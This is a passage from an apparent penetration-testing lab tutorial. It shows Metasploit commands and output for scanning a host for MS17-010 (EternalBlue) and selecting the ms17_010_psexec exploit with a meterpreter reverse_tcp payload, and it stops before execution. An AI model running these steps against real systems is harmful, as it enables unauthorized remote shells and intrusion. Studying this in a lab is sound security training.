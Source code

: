 ```shell-session
RHOSTS => 10.129.201.97
msf6 auxiliary(scanner/smb/smb_ms17_010) > run

[+] 10.129.201.97:445     - Host is likely VULNERABLE to MS17-010! - Windows Server 2016 Standard 14393 x64 (64-bit)
[*] 10.129.201.97:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
{% endcode %}

Now, we can see from the check results that our target is likely vulnerable to EternalBlue. Let's set up the exploit and payload now, then give it a shot.

3. <mark style="color:green;">**Select Exploit & Payload, then Deliver**</mark>

<mark style="color:orange;">**Choose & Configure Our Exploit & Payload**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 > search eternal

Matching Modules
================

   #  Name                                           Disclosure Date  Rank     Check  Description
   -  ----                                           ---------------  ----     -----  -----------
   2  exploit/windows/smb/ms17_010_psexec            2017-03-14       normal   Yes    .........
```
{% endcode %}

For this instance, we dug through MSF's exploit modules utilizing the search function to look for an exploit matching EternalBlue. The list above was the result. Since I have had more luck with the `psexec` version of this exploit, we will try that one first. Let's choose it and continue the setup.

<mark style="color:orange;">**Configure The Exploit & Payload**</mark>

{% code fullWidth="true" %}
```shell-session
msf6 > use 2
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_psexec) > options
```
{% endcode %}

**Validate Our Options**

{% code fullWidth="true" %}
```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > show options
```
{% endcode %}

This time, we kept it simple and just used a `windows/meterpreter/reverse_tcp` payload. You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections. With our options set, let's give this a try and see if we land a shell.

4. <mark style="color:green;">**Execute Attack, and Receive A Callback.**</mark>
